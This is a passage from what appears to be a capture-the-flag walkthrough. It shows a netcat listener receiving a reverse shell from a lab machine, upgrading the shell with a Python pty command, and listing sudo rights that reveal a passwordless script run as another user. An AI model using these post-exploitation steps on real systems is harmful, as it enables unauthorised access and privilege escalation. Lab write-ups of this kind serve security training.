 <figure><img src="../../.gitbook/assets/9 (26).png" alt=""><figcaption></figcaption></figure>

* Let's check back on our listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.159.234] 39848
/bin/sh: 0: can't access tty; job control turned off
$ 
```

* We can get a stable shell using the following command:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/secret$
```

* Let's chat files the `www-data` user can run using `sudo`.

```
www-data@ubuntu:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

* Let's take a better look at what the `.helpline.sh` file does.
